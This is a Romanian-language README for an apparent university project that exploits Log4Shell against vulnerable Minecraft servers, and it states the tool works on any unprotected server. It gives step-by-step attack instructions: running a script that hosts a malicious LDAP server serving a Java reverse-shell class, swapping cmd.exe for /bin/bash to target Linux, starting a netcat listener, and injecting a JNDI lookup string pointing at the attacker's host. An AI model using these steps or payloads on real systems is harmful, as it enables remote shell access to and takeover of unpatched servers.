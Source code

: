 # Log4shell

## Descriere

Acest proiect exploateaza vulnerabilitatea Log4shell. Este destinat folosirii lui pentru a ataca un server vulnerabil de Minecraft, joc video foarte popular. Insa poate fi folosit pentru atacul oricarui server neprotejat de acest atac.

Proiectul este capabil sa initieze o conexiune de tip reverse shell.

## Dependinte

### Sistemul atacatorului

Proiectul este construit sa functioneze pe un sistem Kali Linux. Acesta are deja instalate urmatoarele programe necesare: Python3, Netcat, Git.

Pentru a instala Kali accesati [pagina oficiala](https://www.kali.org/docs/installation/hard-disk-install/) a softwareului.

In reproducerea atacului am folosit [Virtualbox](https://www.virtualbox.org/wiki/Downloads) pentru a virtualiza masina de Kali Linux. [Tutorial](https://www.kali.org/docs/virtualization/install-virtualbox-guest-vm/) 

In ambele scenarii de instalare a sistemului Kali trebuie asigurata conexiunea la retea cu masina dorita sa fie atacata.

### Sistemul atacatat

In fisiere se pot regasii pachetele Java vulnerabile pentru Windows si Linux(Debian). In functie de sistemul ales se descarca aplicatia respectiva (Fisierul .tar.gz pentru Debian, Fisiserul .exe pentru Windows).

Pentru versiunea Minecraft vulnerabila se recomanda descarcarea de pe [acest link](https://mcversions.net/download/1.8.8). Acest fisier .jar va fi executat pe masina vulnerabila dorita. [How to](https://help.minecraft.net/hc/en-us/articles/360058525452-How-to-Setup-a-Minecraft-Java-Edition-Server)

## Executarea exploitului

* Dupa ce se cloneza acest repository, se intra in folderul lui.

* Urmatoarea caseta explica cum trebuie executat scripul de Python:
```
usage: application.py [-h] [--ip IP] [--port PORT]
                      [--nume_clasa NUME_CLASA]

Un script care primește IP-ul, portul și numele clasei java. Usage: python3
application.py --ip <IP> --port <Port> --nume_clasa <Nume>

optional arguments:
  -h, --help            show this help message and exit
  --ip IP               Adresa IP a serveului LDAP
  --port PORT           Portul Netcat
  --nume_clasa NUME_CLASA Clasa java
```
IP - Ip-ul masinii atacate
Port - Portul unde este acultata conexiunea reverse shell (ex:9999)
Nume - Numele dorit pentru clasa java reverse shell generata

* Dupa rulare, va exista un server malitios valabil pentru a injecta clasa java ce initiaza o conexiune reverse shell.

### Observatii!

Scriptul este configurat pentru a ataca o masina Windows. Pentru atacul unei masini Linux trebuie schimbat in script programul Java. Se cauta in fisier "cmd.exe" si se inlocuieste cu "/bin/bash".

* Netcat

Pornirea unei instante separate netcat. Asculta pentru o conexiune reverse shell.
```
nc -lvnp 9999
```

Aici va fi gasita linia de comanda a sistemului atacata

## Injectare si rezultate

In consola, unde scriptul python ruleaza, se va afisa comanda necesara ce trebuie introdusa in sistemul vulnerabil. Cum ar trebuii sa arate comanda: `${{jndi:ldap://{args.ip}:1389/{args.nume_clasa}}`

Pentru serverul de Minecraft trebuie sa ne conectam cu un client. Dupa conexiunea la sever a clientului se introduce comanda anterioara.

In final ar trebui sa avem o conexiune de terminal in fereastra cu Netcat.

## Autor

Gheorghita Dan 
@Universitatea Politehnica Timisoara